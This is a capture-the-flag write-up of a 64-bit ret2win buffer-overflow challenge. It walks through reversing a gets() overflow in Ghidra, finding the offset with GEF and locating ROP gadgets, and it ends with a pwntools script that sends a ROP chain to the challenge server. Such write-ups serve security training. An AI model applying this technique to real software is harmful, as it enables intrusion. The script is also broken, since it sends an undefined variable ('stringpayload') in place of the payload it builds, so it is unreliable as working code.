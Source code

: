 
----------------------------------------
# 0〤丩ᐯ㇌尺𝓝丩㇄|$

------------------------------------------------------------------------------


# Challenge Description:
------------------------------------------------------------------------------
Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.

# Overview:
------------------------------------------------------------------------------
## File checks:

Running basic file checks on the binary:

![[ret2win2.png]]

We can see that the file is a ==non-stripped== 64-bit executable, with minimal protections, meaning it's a no-holds-barred challenge.

## Testing binary:

![[ret2win1.png]]

When running the binary we can see that it asks us for input, and tells us to get to the secret function so it's a basic ret2win challenge.

## Reversing the binary:

------------------------------------------------------------------------------
### main()
when opening the binary up when ghidra, we can start by looking at the main function, here is the decompiled version of it:

![[main.png]]


We can see that the application is very basic, it puts text on the screen and runs the user_input function, which the decompilation of is as follows:
### user_input()

![[user_input.png]]

Now it's obvious what we're going to do, the application sets a buffer of 32 bytes, and uses the ==gets== function, which is a very dangerous function, because gets doesn't know how big the buffer is, so it continues reading until it finds a newline or encounters EOF, and may overflow the bounds of the buffer it was given.


### Win()
and finally, the win function (or supersecrettoplevelfunction) as they're calling it:

![[win.png]]

The function checks for some parameters, which we can check the value of by right clicking on them, here is the value of the parameters:

![[params.png]]

![[param2.png]]


we can make out the parameters to be __cafebabe & c0debabe__

and finally we can construct our plan of attack.


# Plan of attack:
------------------------------------------------------------------------------

1. We will have to find the offset of the RIP
3. After that we have to pop some values off the stack to pass our parameters as per the [x64 calling conventions](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170)
4. We will then pass our parameters
5. Pass in our win_function address
6. And finally, we will wait for the magic to happen!


# Exploitation:
------------------------------------------------------------------------------

## Debugging with GDB-GEF:

First we generate a cyclic pattern using `pattern create <length>` inside of GEF, copying the value, pressing `r` and pasting it when the application prompts us.

![[gef.png]]


Looking at the result, we can see that the RIP didn't get overwritten as it would've if we were in a 32-bit application, and the application hit a Segmentation Fault when trying to return, we can also take note of where our cyclic pattern is, and currently it's in the $rsp register, meaning we have control over that. As to why our pattern didn't overwrite the RIP? I'll let you do this research on your own, but all the explanation can be found [here](https://coldfusionx.github.io/posts/ret2basic/)

So, after that we can find the offset by running `pattern search $rsp`, and getting the little-endian value of that. 

![[search.png]]


Read more about Endiannes [here](https://en.wikipedia.org/wiki/Endianness)

Alright, everything should be set from now, we send a payload that consists of the following:

our padding+a valid memory address of a jmp rsp instruction+pop rdi+param1+pop rsi+param2

So let's start:

## Finding ROP gadgets:

To find the valid instructions we need, we'll need to use ropper or ROPGadget from pwntools, but I prefer ropper.

First, we'll need a pop rdi instruction and we can find it using the following command:

![[pop_rdi.png]]

And then a pop rsi:

![[pop_rsi.png]]

But wait... there's no pop rsi, only pop rsi; pop r15?

That's no problem at all, we'll just have to modify our payload to be the `pop rsi; pop r15; ret` address, and pass in two parameters instead of one, the first parameter will be put into rsi and the second -which can be any junk- will be put into the r15 register.

## Finding the win function address:

And finally, using `readelf`, we can find the address of the win function which we will pass.

![[readelf.png]]


And now that we have everything we need, the final form of the payload will be: 
Padding + pop rdi+param1+pop rsi;r15+param2+junk_param+win_address


# The script:
------------------------------------------------------------------------------

```python


from pwn import *
elf=ELF('./ret2win')
session= remote('ret2win.challenges.ctf.ritsec.club', 1337)
win_function=p64(elf.symbols['supersecrettoplevelfunction'])
pop_rdi=p64(0x00000000004012b3)
param1=p64(0xcafebabe)
pop_rsi=p64(0x00000000004012b1)
param2=p64(0xc0debabe)
junk=p64(0x00)

padding=b'A'*40

joined_payload=padding+pop_rdi+param1+pop_rsi+param2+junk+win_function

print(stringpayload)
with open('payload','wb') as test:  # FOR DEBUGGING PURPOSES ONLY
	test.write(stringpayload)
#p = elf.process()                  # FOR DEBUGGING PURPOSES ONLY
# gdb.attach(p,"""
# 	b main
# 	r < payload
# 	c""")
session.sendline(stringpayload)
session.interactive()


```

------------------------------------------------------------------------------
